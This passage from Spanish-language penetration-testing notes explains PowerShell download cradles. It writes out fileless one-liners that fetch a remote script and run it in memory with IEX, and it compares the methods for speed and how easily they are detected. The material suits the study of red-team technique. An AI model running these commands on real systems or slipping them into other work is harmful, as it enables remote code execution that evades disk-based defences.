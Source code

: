 #### B. PowerShell DownloadString - Fileless Method
Permite descargar y ejecutar un script directamente en memoria sin tocar el disco. Se descarga desde internet y se ejecuta directamente en la memoria RAM.

El contenido descargado se interpreta y ejecuta directamente en la sesión de la PoweShell:

- **Uso con `Invoke-Expression` (alias `IEX`):**
```
IEX (New-Object Net.WebClient).DownloadString('<URL del script>')`
```
	- Primero, `DownloadString` descarga el script como texto.
	- Luego, `IEX` **interpreta ese texto como código PowerShell y lo ejecuta en memoria RAM** (sin guardarlo en el disco) .
	- **Resultado:** el script corre **sin guardarse en disco**.

- **Uso con pipeline:**

```
(New-Object Net.WebClient).DownloadString('<URL del script>') | IEX`
```
	- Aquí el texto descargado se envía a través del **pipe (`|`)** hacia `IEX`.
	- Funciona igual que la forma anterior: ejecuta el script en memoria, pero usa la sintaxis de pipeline.
	- Puede ser más conveniente en scripts más complejos o cuando quieres encadenar comandos.
	- Ejecuta el script **directamente en memoria**, evitando que se cree un archivo en el disco.


#### C. Invoke-WebRequest (PowerShell 3.0+)
Descarga archivos desde una URL y permite guardarlos en disco.
```
Invoke-WebRequest <URL> -OutFile <ArchivoLocal>
```
- **Notas:**
    - Más lento que `WebClient:` hace más trabajo detrás de cámaras: analiza cabeceras HTTP, cookies, codificaciones, etc.
    - Útil cuando se necesita más control sobre la solicitud HTTP.
    - Dependencias de proxy y escritura en disco pueden variar según la versión de PowerShell.


## PoweShell Download cradles
Harmj0y ha compilado una lista extensa de "PowerShell download cradles" en su repositorio de GitHub. Un _download cradle_ es una técnica que permite descargar y ejecutar código en una máquina remota utilizando una sola línea de PowerShell. Estos métodos son comúnmente empleados en pruebas de penetración y actividades de red teaming para ejecutar scripts de forma remota sin necesidad de escribir archivos en el disco.

Se puede encontrar en:
https://gist.github.com/HarmJ0y/bb48307ffa663256e239


Todas esas son **formas de descargar y ejecutar scripts o archivos en PowerShell**, pero **cambian en cómo lo hacen y en qué limitaciones tienen**. Vamos a desglosarlo:

|Método|Cómo funciona|Pros|Contras / Limitaciones|
|---|---|---|---|
|**`Net.WebClient` + `DownloadString` + `IEX`**|Descarga el script como texto y lo ejecuta en memoria|Muy simple, rápido, ampliamente compatible|Puede ser detectado si hay monitoreo de tráfico HTTP; requiere acceso directo a la URL|
|**`Invoke-WebRequest (iwr)` + `IEX`**|Descarga usando cmdlet moderno de PowerShell|Flexible: cabeceras HTTP, autenticación, cookies; soporta HTTPS nativo|Más lento que `WebClient`; puede escribir en disco si no se usa `-OutFile` correctamente; depende de versión de PowerShell|
|**`Msxml2.XMLHTTP`**|Objeto COM que hace una petición HTTP y devuelve el contenido|Funciona en versiones antiguas de Windows; ligero|No maneja cookies o autenticación avanzada; ejecución requiere `IEX` explícito|
|**`WinHttp.WinHttpRequest`**|Objeto COM que hace HTTP/HTTPS|Útil donde no hay proxy; ligero|No soporta proxy automáticamente; menos flexible para cabeceras o autenticación|
|**`InternetExplorer.Application`**|Usa IE para navegar a la URL y obtener el contenido|Puede ejecutar scripts que requieran el motor de IE|Pesado, lento, depende de IE; riesgo de pop-ups o procesos visibles; casi obsoleto|
